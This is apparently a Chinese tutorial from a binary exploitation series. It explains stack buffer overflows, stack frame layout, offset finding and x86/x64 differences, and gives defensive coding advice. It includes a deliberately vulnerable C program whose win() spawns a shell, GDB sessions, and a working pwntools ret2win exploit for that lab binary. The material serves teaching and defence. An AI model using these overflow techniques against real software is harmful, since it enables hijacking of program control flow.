



# 二进制漏洞与利用基础（2）· 栈溢出原理与经典利用

> [!abstract] TL;DR
> - 栈是向低地址增长的 LIFO 结构，`call`/`ret` 把"下一条指令地址"当作普通数据压在栈上——CPU 对这个值毫无验证，这正是栈溢出可被利用为控制流劫持的根本原因。
> - 缓冲区溢出的本质是写指针越过了编译期确定的对象边界；越界写只要跨过了 saved RBP 与返回地址所在的偏移，`ret` 执行时就会把攻击者写入的值当成"返回地址"弹入 RIP。
> - 精确偏移应使用 `cyclic`（De Bruijn 序列）定位而非手工数字节——canary、编译器局部变量重排、优化选项都会改变实际布局，机械计数极易出错。
> - x86 与 x64 的差异不止是寄存器改名：x64 前 6 个参数走寄存器而非栈，覆盖返回地址后无法像 x86 那样"顺带"传参；地址高位常见的 `\x00` 也会截断基于 C 字符串语义的溢出原语。
> - 本篇止步于"劫持 RIP 跳向已知且可执行的地址"（ret2win 模式）：不需要注入 shellcode、不需要绕过 NX、不需要泄露地址——这些分别是第 3、4、5、15 篇的主题。
> - Canary/NX/ASLR/PIE 会分别拦截本篇描述的不同环节；理解无防护时的"裸奔"机制，是理解后续每一项缓解措施到底在挡什么的前提。

## 概述与定位

栈溢出（stack buffer overflow）是内存破坏漏洞里最古老、也是理解后续几乎所有二进制利用技术的第一块基石。在深入原理之前，有必要先厘清一个经常被混用的术语边界：中文技术圈说的"栈溢出"其实对应两类完全不同的问题。第一类是本篇要讲的**栈缓冲区溢出**（CWE-121）：程序在栈上分配了一块固定大小的缓冲区，却用不受长度约束的方式向其中写入数据，写入字节数一旦超过缓冲区容量，就会覆盖到缓冲区之外、原本属于其它变量、保存的寄存器甚至返回地址的内存——这是一类**数据边界**问题，与栈本身还剩多少空间无关，哪怕整个进程的栈还有几兆字节空闲，一个 64 字节的缓冲区照样能被写入 1000 字节而"溢出"。第二类是**栈耗尽**（stack exhaustion）：无限递归、失控的 `alloca`/变长数组（VLA）持续压栈，最终把整个栈区域用尽、一路写到内核在栈区下方预留的保护页（guard page）上，触发 `SIGSEGV`——这是一类**容量**问题，本质上和单个缓冲区大小无关。两者偶尔会在同一段代码里同时出现，但作为漏洞原理，机制、检测方式与利用路径截然不同；本篇专注前者，栈耗尽在涉及变长数组大小计算的第10篇语境下会再被提及，不作为本篇主线。

栈缓冲区溢出并不是学院派事后总结出的抽象概念，而是从一开始就是真实世界攻击的主力武器。下图梳理了它从学术雏形到成为标准化教学内容的关键节点：



1988 年的 Morris 蠕虫已经利用了 BSD `fingerd` 里的一处栈缓冲区溢出实现远程代码执行，但真正把这类漏洞的成因、栈帧布局、以及"覆盖返回地址→劫持控制流"这套方法论系统化、写给整个安全社区看的，是 1996 年 Aleph One 发表在 *Phrack* 49 期的经典文章《Smashing the Stack for Fun and Profit》——这篇文章至今仍是理解本篇内容的一手源头。此后 Code Red（2001）、SQL Slammer（2003）等蠕虫的大规模爆发把栈溢出的破坏力直接摆在了整个互联网面前，也直接推动了 NX/DEP、Stack Canary、ASLR 这些缓解机制从学术提案变成生产环境标配。今天的主流发行版默认同时开启这几项防护后，"裸奔"的栈溢出已经很难在现实世界里直接奏效，但它并没有消失——嵌入式/IoT 固件、老旧工控系统仍大量存在关闭防护的构建，而更重要的是，**理解无防护时的原始机制是理解所有后续绕过技术的前提**：每一种绕过手法本质上都在回答"某项防护挡住了原本这条最短路径，我该怎么绕过它"，如果第一步都没搞清楚"最短路径长什么样"，后面的绕过技巧就只是一堆记不住的 payload 模板。

在《二进制漏洞与利用基础》系列里，[[01.内存破坏漏洞全景与利用链模型|第1篇]]搭建了"漏洞原语 → 控制流劫持 → 防护绕过 → 利用链落地"的整体框架，把栈溢出、堆漏洞、格式化字符串、整数溢出并列为几类基础原语。本篇是这套框架里第一个被具体展开的原语，只讲**栈缓冲区溢出如何发生、为什么天然威胁到返回地址、以及最小可行的利用形态是什么样**。为了把原理讲透而不被后续技巧分散注意力，本篇有意划出以下边界：不讲 shellcode 的编写与注入（见第3篇）——本篇的控制流劫持只跳到二进制里已经存在、天然可执行的代码，从未在栈上放置并执行注入指令，因此完全不受 NX/DEP 影响；不讲返回到已有代码段或 libc 的系统性方法论（见第4、5篇）——本篇的跳转目标是教学二进制里专门放置的一个"后门函数"；不讲 gadget 链式利用（ROP，见第6、7篇）——本篇的劫持只做一次跳转；也不讲 canary 与 ASLR/PIE 绕过（见第14、15篇）——本篇的教学二进制显式关闭了这两项防护，只为把"栈溢出→控制流劫持"这条最短路径讲清楚。这种"先看没有任何防护时问题本质是什么，再逐层引入防护与对应绕过"的顺序是刻意的教学策略：如果一开始就在 canary、ASLR、NX 同时开启的环境里学习，很容易把"这个手法为什么有效"和"为什么要绕过某项具体防护"混为一谈，反而看不清栈溢出这个漏洞原语本身的样子。

## 原理与机制

### 栈为何存在、为何向低地址增长

程序运行时的函数调用具有天然的嵌套结构：`main` 调用 `a`，`a` 调用 `b`，`b` 返回后 `a` 还要继续执行，`a` 返回后 `main` 还要继续执行——这种"后调用先返回"的模式与栈（后进先出，LIFO）的数据结构完全吻合，这正是几乎所有主流 ABI 都选择用一段专门的、按栈方式管理的内存区域来保存每次调用的返回地址、部分寄存器现场和局部变量的根本原因：不需要在编译期就知道调用会嵌套多深（递归深度、回调链长度都可能是运行期才确定的），栈可以按需伸缩，函数返回时对应空间自动"归还"，不需要显式释放。

至于为什么栈**向低地址增长**（在几乎所有主流 x86/x64/ARM 的 Linux/Windows/macOS 进程里都是如此），需要拆成两层来看，很多材料把这两层混为一谈。第一层是**指令语义**，这一层在 x86/x64 上是硬件写死的、不是操作系统或编译器能选的：`push` 指令的定义就是"先把 RSP 减去操作数宽度，再把值存到 `[RSP]`"；`call` 指令在跳转前会做等价于 `push` 返回地址的动作；`pop`/`ret` 则是"先从 `[RSP]` 取值，再把 RSP 加上宽度"。只要用 `push`/`call`，栈顶地址就必然单调递减，这是 Intel/AMD 指令集手册里明文规定的行为，不依赖任何软件约定。但这条"写死"只对有专门 push/pop/call/ret 指令的架构成立——经典 MIPS 这类精简指令集根本没有硬件级的 push/pop，函数调用靠软件约定用普通算术指令模拟"栈"，方向完全是 ABI/工具链的选择而非硬件强制；AArch64 用 `stp`/`ldp` 加通用算术指令实现类似效果，方向同样是约定而非硬件强制（这类跨架构差异见第21篇）。第二层是**内存布局约定**，这一层纯粹是操作系统加载器和 ABI 的选择：把栈区域放在进程地址空间的高地址端、把堆放在低地址端紧邻已加载的代码段/数据段之后，两者相向增长、中间留出一大段未映射地址空间作缓冲——这样无论栈用多深、堆分配多少，只要不真的撞到一起，都不需要在进程启动时就精确预知各自的最终大小。这纯粹是一种给两个都可能变化的区域预留最大灵活度的工程决策，换成两者都向上增长在原理上同样可行，只是现有的加载器、链接器脚本和一大批依赖具体内存布局的调试/安全工具都要跟着重写——这正是"约定俗成"而非"必然如此"的体现。

### 函数调用的机械过程

一次典型的函数调用，从 `call` 指令执行到 `ret` 指令执行完毕，经历的是一套完全确定、和高级语言语义无关的机械步骤（以 `-O0` 未优化的教学构建为例，`-O2` 起编译器常省略帧指针，见后文"边界与陷阱"）。下面的时序图给出了这套步骤与溢出发生位置的对应关系：



拆开来看：**`call target`** 时 CPU 把"当前指令之后那条指令"的地址压栈，再把 RIP 设为 `target`——这个"返回地址"从被压栈的那一刻起，物理上就是栈内存里的 8 个普通字节，CPU 不会给它打上任何"这是代码地址、不容篡改"的标记。**函数序言**典型形如 `push rbp`（保存调用者帧指针，形成一条可回溯的帧链）、`mov rbp, rsp`（用当前栈顶建立本函数帧基准）、`sub rsp, N`（把栈顶下移 N 字节，预留局部变量空间，包括即将被溢出的缓冲区）。**函数体**执行期间，如果出现不受长度约束的写入，就是本篇讨论的漏洞触发点。**函数尾声**里 `leave` 等价于 `mov rsp, rbp` 接着 `pop rbp`——把栈顶重新对齐到帧基准，再把之前保存的调用者帧指针弹回 RBP。最后 **`ret`** 语义等价于 `pop rip`：从当前栈顶取出 8 字节写入 RIP，栈顶再加 8。

把这几步串起来看，`ret` 这条指令本身极其"天真"：它不做任何合法性校验，只是机械地信任"栈顶这 8 个字节就是一个合法的返回地址"。这份信任在没有攻击者干预时当然成立，因为压栈的是 `call` 指令，弹出的自然也是它——但只要函数体执行期间发生了越界写、并且落点恰好覆盖到了 `call` 压入的那 8 个字节，"信任"就变成了"可被操纵"。这就是 RIP 劫持最原始、最本质的定义：**利用 `ret` 对栈顶内容的无条件信任，把攻击者写入的任意 8 字节值送入指令指针寄存器**，让 CPU 从下一条指令开始执行攻击者指定地址处的代码——注意这里不需要"注入"任何新代码，仅仅是重新安排了 CPU 已经信任要执行的地址。

### 谁会写出可溢出的代码：危险函数一览

C 语言的数组和裸指针不携带长度信息，这是下面这批"危险函数"的病根：`strcpy`、`strcat` 只能靠源字符串的 `\0` 结尾判断该在哪停下，它们从函数签名上就拿不到目标缓冲区的容量，无从检查；`gets` 更极端，连源字符串边界都不看，只认换行符，是 C11 标准正式把它从库里除名的函数（此前所有版本的 C 标准都明确警告过它"不可能安全使用"）。这不是哪个库作者失误，而是这批函数诞生的年代（1970 年代 C 语言早期）压根没有"输入可能是恶意构造的"这个安全模型，接口设计目标是"和内存里已有的 C 字符串语义保持一致"，而不是"防御攻击者"。

| 危险函数 | 问题所在 | 更安全的替代 |
| --- | --- | --- |
| `gets(buf)` | 不接受长度参数，C11 已从标准库删除 | `fgets(buf, sizeof(buf), stdin)` |
| `strcpy(dst, src)` | 按 `src` 的 `\0` 结尾拷贝，不检查 `dst` 容量 | `strncpy`（注意不保证结尾 `\0`）或 `snprintf` |
| `strcat(dst, src)` | 同上，且需要先知道 `dst` 当前已用长度 | `strncat` 或先算剩余容量再 `snprintf` |
| `sprintf(buf, fmt, ...)` | 格式化输出无长度上限 | `snprintf(buf, sizeof(buf), fmt, ...)` |
| `scanf("%s", buf)` | 不带宽度限定符时无长度上限 | `scanf("%63s", buf)` 或改用 `fgets` |
| `read`/`recv` 到定长缓冲区 | 长度参数若来自攻击者且未与 `sizeof(buf)` 比较 | 显式 `len = min(len, sizeof(buf))` |

这张表右边那一列并不是"绝对安全"的保证——`strncpy` 在源串达到或超过 `n` 时不会自动补 `\0`，如果后续代码继续把它当 C 字符串使用，反而可能引出另一类越界读；`snprintf` 也只保证不越界写，返回值（应写入的长度）如果不检查，逻辑上照样可能出错。安全编码的关键从来不是背一张函数黑名单，而是"任何一次写入之前，能否用一个和目标缓冲区实际容量绑定的数值给出上界"——第9篇讨论格式化字符串漏洞时，会看到 `%n` 这个更隐蔽的"任意写"是如何绕开这条朴素规则的。

## 栈帧结构与溢出机制详解

### 精确的字节布局

以一个最小的漏洞函数为例：

```c
void vuln(void) {
    char buf[64];
    gets(buf);
}
```

在 `-fno-stack-protector`、`-O0` 的典型编译结果下，`vuln` 的栈帧大致如下（真实偏移因编译器版本、优化选项而异，务必用调试器现场核实，不要凭经验假设）：

```text
高地址（栈底方向，调用者的栈帧）
+----------------------------------+
|      caller 的局部变量 / 帧      |
+----------------------------------+
|   返回地址 (8字节)                | <- [rbp+8]  vuln() 执行 ret 后 RIP 将跳到这里
+----------------------------------+
|   saved RBP (8字节)               | <- [rbp+0]  leave 时被弹回 RBP 寄存器
+----------------------------------+
|   buf[64]                        | <- [rbp-0x40] .. [rbp-0x01]
|   ...                            |    gets 从这里开始向高地址写入
+----------------------------------+ <- rsp（sub rsp, N 之后）
低地址（栈顶方向）
```

从 `buf` 起始地址算起，写入第 1~64 字节填满数组本身；第 65~72 字节（8 字节）覆盖 saved RBP；第 73~80 字节（8 字节）覆盖返回地址；超过第 80 字节则继续写入调用者的帧。也就是说这个例子里"覆盖返回地址所需的总偏移" = 缓冲区到 saved RBP 的距离（此例 64）+ saved RBP 自身宽度（8）= 72 字节——这与后面用 `cyclic` 实测出的偏移应当一致，如果不一致，说明实际布局和这张示意图的假设不同（比如多了对齐填充或额外局部变量），要以实测为准。下图把这个"字节推进"的过程动态化：



### x86 与 x64 的关键差异

栈帧结构在 32 位与 64 位下并不是简单的"寄存器改个名字"，几处差异直接决定了利用方式：

| 维度 | x86（32位，cdecl） | x64（System V AMD64） |
| --- | --- | --- |
| 返回地址宽度 | 4 字节 | 8 字节 |
| 参数传递 | 全部压栈 | 前 6 个整型/指针参数走寄存器，其余压栈 |
| 覆盖返回地址后能否顺带传参 | 能——伪造参数紧跟在伪造返回地址之后即可 | 不能——需要额外 gadget 把值送进寄存器（第6、7篇） |
| `call` 前栈对齐要求 | 相对宽松（历史上 4 字节，SSE 相关代码另有要求） | 强制 16 字节对齐 |
| 典型非 PIE 默认加载基址 | `0x08048000` 附近 | `0x400000` 附近 |
| 地址高位空字节 | 因具体基址/偏移而异 | 常见情形下高 4 字节恒为 `0x00000000` |

这张表里最值得展开的是第三行，也是下文"ret2win 为什么选零参数目标函数"要详细论证的问题；地址空字节的差异则牵出下面"空字节截断"这一节。

### 偏移定位方法论：为什么不能手工数字节

只要局部变量简单、没有优化，对着反汇编数 `sub rsp` 的立即数或许行得通，但只要引入 canary、多个局部变量、结构体/联合体局部对象，或者换一个 `-O2` 优化级别，手工计数出错的概率会迅速上升，而且每改一次源码或编译器版本都要重新数一遍。更稳妥的做法是发送一段**非重复的定位模式**：把 200 字节的输入构造成任意连续 4/8 字节子串在整段序列中都唯一出现的形式（这正是 De Bruijn 序列 B(k, n) 的数学性质），让程序真的崩溃在这个模式的某个位置上，再反查该位置对应的偏移。pwntools 的 `cyclic()`/`cyclic_find()` 就是这一方法论的现成实现：只要拿到崩溃时"本该是返回地址却是模式片段"的那 8 字节值，就能唯一确定它在原始序列里的起始位置，这个位置数就是从缓冲区起点到返回地址的精确字节偏移——不需要对着反汇编一条条数指令，也不需要多轮"改一个字节再试"式的二分查找。

### 栈对齐：一个容易被忽视的前提

System V AMD64 ABI 明确要求：在 `call` 指令执行的那一刻，RSP 必须是 16 的倍数；`call` 隐式压入 8 字节返回地址后，函数入口处 RSP 就变成"16 的倍数 + 8"，函数体内部再执行 `sub rsp, N` 时编译器会保证 N 让 RSP 重新对齐到 16 的倍数。这个约束平时不太引人注意，但一旦涉及"跳过正常的 `call` 指令、直接把某个地址塞进 RIP"（本篇的 `ret` 劫持正是如此），就可能打破这条约定——被跳转到的函数如果内部用到了要求 16 字节对齐内存操作数的 SSE 指令（比如 `movaps`），栈没有对齐到预期状态就会直接触发保护性异常而崩溃，而不是执行到我们期望的效果。这也是为什么很多 ROP 链在真正调用某个库函数之前会额外插入一个"什么都不做，只把栈顶再往下挪 8 字节"的 `ret` gadget——纯粹是为了把对齐状态调整回 ABI 期望的样子。本篇的 `win()` 函数足够简单，通常不会踩中这个坑，但理解这一条，是后面第5~7篇处理更复杂目标函数时排查"明明地址算对了却还是崩"的必备前提。

### 空字节截断：拷贝原语的分野

是否受"空字节截断"影响，取决于溢出所用的具体函数，而不是笼统的"32位还是64位"。`gets`/`fgets`/`read`/`recv` 这类以换行符或显式长度为边界的函数，只把 `0x00` 当作普通字节，payload 中出现多少个 `0x00`（哪怕出现在返回地址的中间字节）都能完整写入。而 `strcpy`/`strcat`、`sprintf` 的 `%s`，以及任何"先把 payload 当 C 字符串读进一个中转缓冲区，再用它做后续拷贝"的链路，一旦 payload 内部（不只是末尾）出现 `0x00`，拷贝会在那里立即截断——后面的字节，包括原本要写的返回地址剩余部分、以及任何后续阶段的数据，整体丢失。

64 位为什么让这个问题更容易被注意到：x64 非 PIE 场景下 `.text` 默认加载基址常在 `0x400000` 附近，地址的高 4 字节几乎总是 `0x00000000`。如果这几个零恰好落在 payload 的最后（也就是返回地址字段的最高位字节，同时也是整段 payload 的结尾），那么无论用哪种拷贝原语通常都不受影响；但如果溢出还需要在返回地址"之后"继续写入更多数据（比如为后续 ROP 链在更高地址处摆放数据，见第6、7篇），NUL 截断类函数就完全无法胜任，必须换成 `read`/`fread` 这类显式长度原语。这也是为什么从本篇的单地址覆盖迈向后面的 ROP 链时，教学与 CTF 场景几乎清一色改用 `read`/`fread` 而不是 `gets`/`strcpy` 的直接原因——不是这些函数"不能用"，而是它们的语义从根上就和"需要在数据中间安插字面 0x00"这件事冲突。

### 两种子模式：变量覆盖与部分覆盖

到这里为止讨论的都是"覆盖到返回地址、进而劫持 RIP"这一支，但栈缓冲区溢出还有两个值得单独拆开看的变体。第一个是**变量覆盖**：溢出并不需要一路推进到返回地址，只要越过缓冲区、改写到栈帧内同属本函数的另一个局部变量，就可能达到攻击目的：

```c
void check_auth(void) {
    int authenticated = 0;
    char name[32];

    printf("name: ");
    gets(name);

    if (authenticated) {
        puts("welcome, admin");
    }
}
```

只要溢出长度越过 `name` 并落在 `authenticated` 所在内存写入非零值，`if` 判断就会在没有真正认证的情况下走向"已登录"分支——这是一种纯数据/逻辑篡改式的利用，不需要知道任何代码地址，不涉及执行流劫持，甚至不要求关闭 NX，破坏力局限于"能不能覆盖到那个具体变量"。但这个例子能否成立，高度依赖编译器具体怎么摆放这两个局部变量——源码里的声明顺序不等于内存里的排列顺序，编译器有自由裁量权。更关键的是，一旦开启 `-fstack-protector`，GCC/Clang 不仅会插入 canary，还会做一次局部变量重排：尽量把数组一类"危险"对象挪到本函数局部变量区里最靠近 canary 的位置，把标量/指针一类对象往远离 canary 的方向压，这样对数组的溢出会先一步撞上 canary（触发 `__stack_chk_fail`），而不会在到达 canary 之前先悄悄改写掉旁边的标量控制变量。也就是说，"越过缓冲区直接改写相邻标量"这一子技巧，在完整开启保护的现代默认构建下可行性会大幅降低，但不是被彻底消除——多个数组共存、结构体内部字段紧邻、以及重排启发式覆盖不到的场景，仍可能留下可达的相邻覆盖路径，这也是"安全性与正确使用"一节要专门提醒的盲区。

第二个变体是 **off-by-one**：如果溢出只多写了 1 个字节（常见根因是循环边界写成 `<=` 而非 `<`，或长度计算里丢了一个 `-1`），在小端序内存布局下，这 1 个多余字节只会改写 saved RBP **最低地址那 1 个字节**。这看似只改了八分之一的 RBP，杀伤力却不容小觑：函数 `leave` 时会把这个被部分篡改的值当作新的 RBP 使用，如果调用者自身后续还有一次基于 RBP 的 `leave; ret`，RBP 的这一点微小偏移会被放大成 RSP 指向一处攻击者可以部分预测甚至控制的位置——这正是**栈迁移（stack pivot）**技巧最基础的种子场景之一，本系列第8篇会专门展开如何借助一次 `leave; ret` 把栈顶迁移到攻击者完全控制的内存区域，此处只作为"部分覆盖也能造成实质影响"的提醒。

值得一提的横向对比是 Windows 32 位平台上曾经风靡一时的 **SEH 覆盖**（Structured Exception Handler overwrite）：32 位 Windows 的异常处理链表本身就存放在栈上，每个节点包含一个"下一节点指针"和一个"异常处理函数指针"，一次栈缓冲区溢出如果先于返回地址覆盖到了这条链表节点，触发异常时系统会直接调用被覆盖的处理函数指针，相当于不需要等到函数正常 `ret`，异常发生的瞬间就能拿到控制流。原理上仍然是"溢出覆盖了一个会被信任并跳转过去的代码指针"，与本篇讲的返回地址覆盖同宗同源，只是被覆盖的对象、触发时机、以及后来的专项防御（SafeSEH、SEHOP）完全是另一套体系，这里仅作为"栈上可信的指针不止返回地址一种"的例证，不在本系列以 Linux/x64 为主的范围内展开。

## 工具视角与实战

### 构建教学靶机

要在本地或授权的 CTF 靶场环境里复现本篇效果，需要一个刻意关闭部分防护的教学二进制：

```c
/* vuln.c —— 教学/CTF 练习用二进制，仅在本地或授权环境编译运行 */
#include <stdio.h>

void win(void) {                 /* 正常控制流中从未被调用到的"后门"函数 */
    system("/bin/sh");
}

void vuln(void) {
    char buf[64];
    printf("input: ");
    gets(buf);                   /* 现代 glibc 已移除 gets 的声明；
                                     若本地编译报错可换成等价的 read(0, buf, 0x100) */
}

int main(void) {
    vuln();
    return 0;
}
```

```text
$ gcc -fno-stack-protector -no-pie -g -o vuln vuln.c
$ checksec --file=./vuln
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX enabled    No PIE
```

`-fno-stack-protector` 去掉 canary，让偏移计算不必额外加上 canary 占用的 8 字节；`-no-pie` 让 `win()` 的地址在每次运行、每次重新编译（源码不变时）都保持固定，不需要任何地址泄露就能提前用 `objdump`/`nm`/`ELF()` 查到。注意这里**没有加 `-z execstack`，NX 也保持系统默认的开启状态**——这是刻意的：本篇的跳转目标 `win()` 是二进制 `.text` 段里天然可执行的既有代码，整个利用过程从未在栈这类数据段上放置、更没有执行过一条注入指令，NX 挡的是"在不可执行内存页上运行代码"，本篇根本不触碰这条红线。这个细节本身就是一条重要的原理性结论：**RIP 劫持这个原语，和"能否在栈上执行注入代码"是两件独立的事**，NX 只封堵后者；只要跳转目标选在已经可执行的地方（无论是本篇这种专门留的后门函数，还是第4篇要讲的程序自身代码片段，或第5篇的 libc 函数），NX 完全无法阻止前者。

### 用 GDB 核实栈帧假设

不要凭经验假设偏移量——同一份源码换一个编译器版本、换一个优化级别，局部变量的实际排布都可能变化，唯一可靠的做法是现场用调试器核实：

```text
$ gdb -q ./vuln
(gdb) break vuln
Breakpoint 1 at 0x401156
(gdb) run
Breakpoint 1, 0x0000000000401156 in vuln ()
(gdb) nexti 3                     # 跨过 push rbp / mov rbp,rsp / sub rsp,N
(gdb) info registers rsp rbp
rsp            0x7fffffffe3c0
rbp            0x7fffffffe400
(gdb) x/2gx $rbp
0x7fffffffe400:  0x00007fffffffe420   0x0000000000401185
                  ^ saved RBP           ^ 返回地址
(gdb) p win
$1 = {void (void)} 0x401136 <win>
```

`x/2gx $rbp` 一次性把 `[rbp]` 和 `[rbp+8]` 两个 8 字节都打印出来，正好对应 saved RBP 与返回地址，比单独查两次更适合快速核实"帧基准往上数第一个、第二个 8 字节分别是什么"这个本篇最关心的问题；`p win` 直接把符号表里 `win` 的地址打出来，前提是编译时带了 `-g` 或符号表未被 strip。日常分析中，`pwndbg`/`gef` 一类 GDB 增强插件能把这几条命令封装成一条 `context`/`stack` 命令自动展示，原理完全一致，只是省去了手敲的步骤。

### 用 pwntools 定位偏移并构造利用

拿到一个可疑的溢出点后，更稳妥的偏移定位方式是让程序真的崩溃在一段定位模式上：

```python
from pwn import *

io = process('./vuln')
io.sendlineafter(b'input: ', cyclic(200))
io.wait()

core   = io.corefile
offset = cyclic_find(core.fault_addr)      # crash 时 RIP 试图跳转到的值
print(offset)                              # 得到精确偏移，例如 72
```

拿到偏移之后，构造利用只是把偏移长度的填充和目标地址的小端序编码拼在一起：

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./vuln')
io  = process(elf.path)          # 本地/CTF 靶机进程，不是远程真实目标

offset  = 72                      # 上一步测得
payload = b'A' * offset + p64(elf.symbols['win'])

io.sendlineafter(b'input: ', payload)
io.interactive()
```

`elf.symbols['win']` 直接从 ELF 符号表里查地址，比硬编码一个数字更稳健——哪怕源码有细微改动导致地址漂移，脚本依然能自动适配，这也是 pwntools 相对手写 socket 脚本的核心价值之一：把"分析"和"利用"之间的胶水代码标准化。

### ret2win 为什么选零参数目标函数

这里特意选用 `void win(void)` 这种不接受参数的函数，并非偶然，而是精确划出了本篇技术的能力边界。一次朴素的"覆盖返回地址"只能决定 **RIP 跳到哪里**，却完全不能顺带指定跳过去那一刻寄存器里是什么值——寄存器内容是此前指令流留下的残值，不受这一次覆盖的直接控制。32 位 cdecl 调用约定下参数全部走栈，理论上只需在伪造的返回地址后面紧接着摆好参数值，被跳转到的函数依然会按"从栈顶开始取参数"的方式正确读到它们；但 64 位 SysV 调用约定要求前 6 个参数已经躺在寄存器里，一次简单的返回地址覆盖完全没有触碰任何通用寄存器，如果 `win` 函数本身需要参数（比如直接调用 `system` 就需要 RDI 指向 `"/bin/sh"` 字符串），跳过去时 RDI 里大概率是无关的垃圾值。把 RDI 这类寄存器摆成想要的值，需要额外找一个"把栈顶数据弹进寄存器再返回"的代码片段（`pop rdi; ret` 一类 gadget），这正是第6、7篇 ROP 要解决的问题，也是第5篇 ret2libc 在调用 `system("/bin/sh")` 之前必须先解决的前置步骤。本篇选择一个不需要任何参数的后门函数，是为了把"控制跳转目标"和"控制跳转后的寄存器状态"这两个本质不同的问题解耦，只讲清楚前者；理解了这个边界，才能理解为什么系列后面几篇要为"多传一个参数"专门发展出一整套 gadget 链技术。

### 从"能让程序崩溃"到"能精确利用"：与模糊测试的衔接

上述流程默认"已经知道 `vuln` 里有一处溢出"，但在没有源码、面对未知二进制的场景下，第一步往往是先让程序崩溃，再回头分析崩溃原因是不是栈溢出。这正是模糊测试与本篇技术的分工边界：AFL/AFL++ 一类覆盖率引导的模糊测试工具负责海量投喂随机/变异输入、发现让程序异常退出的用例；配合 `-fsanitize=address` 编译的 ASAN 构建能在越界写发生的瞬间就精确报告"哪个函数、哪一行、写到了缓冲区末尾之后第几个字节"，比等到 `ret` 真正崩溃才排查要精确得多。拿到一个高质量的 crash 用例后，才轮到本篇讲的这套"确认是栈溢出→用 `cyclic` 定位偏移→构造 payload"的分析流程接手，模糊测试与崩溃分类的系统方法论属于第49系列的范围，这里只点出衔接关系。

## 安全性与正确使用

### 从编码层面消除问题

防御栈缓冲区溢出最根本的手段不是等漏洞出现后再对抗利用链，而是从编码阶段就不让越界写有机会发生。首先是**换用有边界的标准库函数**：前文表格列出的替代方案（`fgets`/`snprintf`/带宽度的 `scanf`）应当是默认选择，`gets` 这类完全不设防的函数在现代工具链里已被直接移除或强烈警告。其次是**编译期加固**：`-D_FORTIFY_SOURCE=2` 配合 `-O1` 及以上优化，会在目标缓冲区大小可被 `__builtin_object_size` 在编译期推导出来时，把 `strcpy`/`sprintf`/`memcpy` 等调用自动替换成带边界检查的 `_chk` 变体，越界时直接终止程序而不是静默破坏内存；`-fstack-protector-strong`（比默认 `-fstack-protector` 覆盖更多函数）插入 canary 并做前文提到的局部变量重排；`-Wall -Wextra -Wformat -Wformat-security` 能在编译期就对不少危险调用模式给出警告。再者是**动态检测**：开发与测试阶段用 `-fsanitize=address` 编译，能在越界写发生的第一时间捕获并打印精确的越界位置、大小与调用栈，是比生产环境等着崩溃或被利用要早得多、成本低得多的发现方式；Valgrind 的 memcheck 对未插桩的既有二进制也能起到类似但性能开销更大的作用。最后是**静态分析**：cppcheck、clang-tidy、商业方案如 Coverity 能在不运行程序的前提下通过数据流分析标记出"写入长度未与目标缓冲区大小做检查"这类模式，适合接入 CI 做门禁。

### 现代缓解机制逐项对照

